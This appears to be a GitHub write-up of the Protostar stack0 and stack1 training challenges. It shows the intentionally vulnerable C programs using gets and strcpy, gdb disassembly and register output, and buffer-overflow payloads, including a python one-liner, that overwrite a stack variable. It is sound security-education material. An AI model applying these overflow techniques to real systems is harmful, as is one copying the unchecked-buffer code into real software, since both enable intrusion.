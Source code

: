 # protostar_writeups

stack0 :
   
   Source code fir this challenge is 
   ```
    #include <stdlib.h>
    #include <unistd.h>
    #include <stdio.h>

    int main(int argc, char **argv)
    {
      volatile int modified;
      char buffer[64];

      modified = 0;
      gets(buffer);

      if(modified != 0) {
          printf("you have changed the 'modified' variable\n");
      } else {
          printf("Try again?\n");
      }
    }
   ```
   
   We need to change the integer called modified to something that is not zero.
   
   run stack0 in gdb and disassemble main
   
   ```
   (gdb) disassemble main
Dump of assembler code for function main:
0x080483f4 <main+0>:    push   ebp
0x080483f5 <main+1>:    mov    ebp,esp
0x080483f7 <main+3>:    and    esp,0xfffffff0
0x080483fa <main+6>:    sub    esp,0x60
0x080483fd <main+9>:    mov    DWORD PTR [esp+0x5c],0x0               
0x08048405 <main+17>:   lea    eax,[esp+0x1c]
0x08048409 <main+21>:   mov    DWORD PTR [esp],eax
0x0804840c <main+24>:   call   0x804830c <gets@plt>
0x08048411 <main+29>:   mov    eax,DWORD PTR [esp+0x5c]               ; modified is loaded onto eax
0x08048415 <main+33>:   test   eax,eax                                ; test if eax is 0
0x08048417 <main+35>:   je     0x8048427 <main+51>
0x08048419 <main+37>:   mov    DWORD PTR [esp],0x8048500
0x08048420 <main+44>:   call   0x804832c <puts@plt>
0x08048425 <main+49>:   jmp    0x8048433 <main+63>
0x08048427 <main+51>:   mov    DWORD PTR [esp],0x8048529
0x0804842e <main+58>:   call   0x804832c <puts@plt>
0x08048433 <main+63>:   leave
0x08048434 <main+64>:   ret
End of assembler dump.
   ```
   
   Variable can be changed if we give any input with length > 64 and "modified" will be overwritten by next 4 bytes. Construct a payload with 64*'A' and 4 'B'(this is just to ensure that we have control over the variable). break at 0x08048417 to check if we have control over modified variable. Using the payload mentioned above(64*'A'+4*'B') eax should have a value of 0x42424242(nothing but BBBB)
   
   ```
   End of assembler dump.                                                                  
(gdb) b *0x08048417                                                                     
Breakpoint 1 at 0x8048417: file stack0/stack0.c, line 13.                               
(gdb) r < /tmp/s0.txt                                                                   
Starting program: /opt/protostar/bin/stack0 < /tmp/s0.txt                               
                                                                                        
Breakpoint 1, 0x08048417 in main (argc=1, argv=0xbffff864) at stack0/stack0.c:13        
13      stack0/stack0.c: No such file or directory.                                     
        in stack0/stack0.c                                                              
(gdb) i r                                                                               
eax            0x42424242       1111638594                                              
ecx            0xbffff76c       -1073744020                                             
edx            0xb7fd9334       -1208118476                                             
ebx            0xb7fd7ff4       -1208123404                                             
esp            0xbffff750       0xbffff750                                              
ebp            0xbffff7b8       0xbffff7b8                                              
esi            0x0      0                                                               
edi            0x0      0                                                               
eip            0x8048417        0x8048417 <main+35>                                     
eflags         0x200206 [ PF IF ID ]                                                    
cs             0x73     115                                                             
ss             0x7b     123                                                             
ds             0x7b     123                                                             
es             0x7b     123                                                             
fs             0x0      0                                                               
gs             0x33     51                                                              
(gdb)                                                                                   
   ```
   eax has changed to 0x42424242 thus overwrote "modified" 
   ```
   user@protostar:/opt/protostar/bin$ ./stack0 < /tmp/s0.txt
   you have changed the 'modified' variable
   ```
   
Stack1 :

  Same as stack0. Only difference is it requires an argument instead of input.Here strcpy copies argv[1] to buffer. strcpy doesn't check for length of buffer so it will continue writing to the buffer until it finds a null byte. So it can overwrite modified.  
  ```
  #include <stdlib.h>
#include <unistd.h>
#include <stdio.h>
#include <string.h>

int main(int argc, char **argv)
{
  volatile int modified;
  char buffer[64];

  if(argc == 1) {
      errx(1, "please specify an argument\n");
  }

  modified = 0;
  strcpy(buffer, argv[1]);

  if(modified == 0x61626364) {
      printf("you have correctly got the variable to the right value\n");
  } else {
      printf("Try again, you got 0x%08x\n", modified);
  }
}

  ```
   Since we already have control over "modified"("BBBB" in stack0) we just need to replace "BBBB" with "dcba ==>(0x64636261)". Since the machine islittle endian the order should be reversed.
   
   
   ```
   user@protostar:/opt/protostar/bin$ ./stack1 $(python -c "print 'A' *64 +'dcba'")
   you have correctly got the variable to the right value
   ```
